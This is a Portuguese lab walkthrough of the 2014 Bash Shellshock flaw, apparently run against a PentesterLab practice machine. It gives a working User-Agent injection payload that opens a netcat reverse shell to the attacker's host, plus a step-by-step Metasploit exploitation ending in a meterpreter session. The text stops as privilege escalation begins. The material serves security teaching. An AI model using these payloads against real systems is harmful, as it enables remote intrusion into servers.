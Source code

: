 # ShellShock

Shellshock é um conjunto de falhas críticas descobertas em 24/09/2014 no **GNU Bash** (o shell padrão em muitos sistemas Unix-like). O erro está na forma como o Bash **importa funções via variáveis de ambiente**: um invasor consegue “colar” *comandos extras* depois da definição da função; ao iniciar, o Bash acabava executando esses comandos, resultando em **execução remota de código (RCE)**. 

**Exploração:**

Muitos serviços montam variáveis de ambiente e depois chamam o Bash. Se campos controlados pelo usuário (por exemplo, cabeçalhos HTTP em **CGI**), opções de **DHCP**, ou certos fluxos de **SSH** forem repassados ao ambiente e um processo acionar o Bash, os comandos injetados podem ser executados no host. Por isso a falha foi especialmente perigosa em servidores web com CGI habilitado. 

**Identificadores e alcance:**

Shellshock é uma vunerabilidade antiga, improvável de ser encontrada atualmente. O primeiro CVE foi **CVE-2014-6271**, seguido por correções adicionais (**CVE-2014-7169**, **CVE-2014-6277**, **CVE-2014-6278**, entre outros), porque patches iniciais não cobriam todos os vetores. Afetou diversas distribuições Linux e também o macOS da época, que receberam atualizações rapidamente.  Devido a sua importância à época, é usada hoje para fins didáticos.

## Análise do fluxo e ataque com BurpSuite

1. Abra o BurpSuite
2. Na guia **Proxy**, abra o browser do BurpSuite. Ele já vem configurado com atribuições de proxy.
3. No browser digite o IP da máquina alvo para abrir o seu website
4. Abra a aba **Target/SiteMap** do BurpSuite
5. Clique no método GET ditetório /cgi-bin/status.
  - Obeserve a linha **User-agente** do **request**
  - Com o botão direito do mouse no painel **request**, selecione **send to repeater**
6. Abra a aba **Repeater**, e substitua o coneteúdo do **User_agent** por `() { :;}; ` (comando nulo) seguido pelo comando que deseje executar na máquina alvo entre aspas simples (').
  - No exemplo, queremos abrir um netcat...
    - `() { :; }; /bin/bash -c 'nc 192.168.0.178 5555 -e /bin/bash'`
7. Na máquina de ataque inicie no terminal um netcat modo listener para conecção com o alvo `nc -lvp 5555`
8. No Burp, clique em **send**.
9. Pronto, temos uma conexão válida e podemos prosseguir escalando privilégios e criando persistência (como visto em *6 - Post Exploitation*).

```
└─$ nc -lvp 5555                                                                              
listening on [any] 5555 ...
192.168.0.141: inverse host lookup failed: Host name lookup failure
connect to [192.168.0.178] from (UNKNOWN) [192.168.0.141] 42436
whoami
pentesterlab
pwd
/var/www/cgi-bin
```

## Ataque com o Metasploit

### 1 - Pesquisa e seleção de exploit
Pesquisando o Metasploit pelo termo "shellshock"
```
msf > search shellshock

Matching Modules
================

   #   Name                                               Disclosure Date  Rank       Check  Description
   -   ----                                               ---------------  ----       -----  -----------
   0   exploit/linux/http/advantech_switch_bash_env_exec  2015-12-01       excellent  Yes    Advantech Switch Bash Environment Variable Code Injection (Shellshock)
   1   exploit/multi/http/apache_mod_cgi_bash_env_exec    2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
   2     \_ target: Linux x86                             .                .          .      .
   3     \_ target: Linux x86_64                          .                .          .      .
   4   auxiliary/scanner/http/apache_mod_cgi_bash_env     2014-09-24       normal     Yes    Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner
...
   15  exploit/multi/misc/xdh_x_exec                      2015-12-04       excellent  Yes    Xdh / LinuxNet Perlbot / fBot IRC Bot Remote Code Execution
```
Descrição (show info);
```
Description:
  This module exploits the Shellshock vulnerability, a flaw in how the Bash shell
  handles external environment variables. This module targets CGI scripts in the
  Apache web server by setting the HTTP_USER_AGENT environment variable to a
  malicious function definition.
```
Este exploit explora a vunerabilidade que estamos testando.
```
msf > use exploit/multi/http/apache_mod_cgi_bash_env_exec
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
```
### 2 - Configuração
```
msf exploit(multi/http/apache_mod_cgi_bash_env_exec) > show options

Module options (exploit/multi/http/apache_mod_cgi_bash_env_exec):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   CMD_MAX_LENGTH  2048             yes       CMD max line length
   CVE             CVE-2014-6271    yes       CVE to check/exploit (Accepted: CVE-2014-6271, CVE
                                              -2014-6278)
   HEADER          User-Agent       yes       HTTP header to use
   METHOD          GET              yes       HTTP method to use
   Proxies                          no        A proxy chain of format type:host:port[,type:host:
                                              port][...]. Supported proxies: sapni, socks4, sock
                                              s5, http, socks5h
   RHOSTS                           yes       The target host(s), see https://docs.metasploit.co
                                              m/docs/using-metasploit/basics/using-metasploit.ht
                                              ml
   RPATH           /bin             yes       Target PATH for binaries used by the CmdStager
   RPORT           80               yes       The target port (TCP)
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is rando
                                              mly generated)
   TARGETURI                        yes       Path to CGI script
   TIMEOUT         5                yes       HTTP read response timeout (seconds)
   URIPATH                          no        The URI to use for this exploit (default is random
                                              )
   VHOST                            no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This mu
                                       st be an address on the local machine or 0.0.0.0 to liste
                                       n on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.10     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux x86
```
É preciso informar:
- O RHOSTS
```
msf exploit(multi/http/apache_mod_cgi_bash_env_exec) > set RHOSTS 192.168.1.43
RHOSTS => 192.168.1.43
```
O caminho para o CGI script (/cgi-bin/status) conforme comando GET mo request (Burp Suite)
```
msf exploit(multi/http/apache_mod_cgi_bash_env_exec) > set TARGETURI /cgi-bin/status
TARGETURI => /cgi-bin/status
```
### 3 - Execução

Ao executar o exploit, ganhamos acesso a máquina alvo através do meterpreter
```
msf exploit(multi/http/apache_mod_cgi_bash_env_exec) > run
[*] Started reverse TCP handler on 192.168.1.10:4444 
[*] Command Stager progress - 100.00% done (1092/1092 bytes)
[*] Sending stage (1062760 bytes) to 192.168.1.43
[*] Meterpreter session 1 opened (192.168.1.10:4444 -> 192.168.1.43:33164) at 2025-09-09 12:52:29 -0300

meterpreter > whoami
[-] Unknown command: whoami. Run the help command for more details.
meterpreter > getuid
Server username: pentesterlab
meterpreter > pwd
/var/www/cgi-bin
```

## Escalando privilégios
```
meterpreter > getuid
Server username: pentesterlab
```
```
meterpreter > sysinfo
Computer     : 192.168.1.43
OS           :  (Linux 3.14.1-pentesterlab)
Architecture : i686
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
